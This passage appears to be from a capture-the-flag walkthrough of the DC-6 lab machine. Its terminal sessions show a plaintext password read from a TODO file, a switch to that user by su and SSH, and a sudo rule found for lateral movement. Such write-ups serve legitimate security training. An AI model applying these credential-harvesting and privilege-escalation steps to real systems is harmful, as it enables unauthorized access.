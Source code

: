Enumerating the `/home` folder reveals an interesting TODO file in `mark`'s home folder.

~~~
www-data@dc-6:/home/mark/stuff$ cat things-to-do.txt
cat things-to-do.txt
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
~~~

The file is disclosing `graham`'s password. Let's switch to `graham`:

~~~
www-data@dc-6:/home/mark/stuff$ su graham
su graham
Password: GSo7isUM1D4

graham@dc-6:/home/mark/stuff$ id
id
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)
~~~

## graham -> jens

Free up the reverse shell and connect via SSH:

~~~
kali@kali:/data/DC_6/files$ sshpass -p "GSo7isUM1D4" ssh graham@wordy
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Oct 10 16:16:08 2020 from 172.16.222.128
graham@dc-6:~$ 
~~~

Checking `graham`'s privileges reveals that we can execute a backup script as `jens` without password:

~~~
graham@dc-6:~$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
~~~
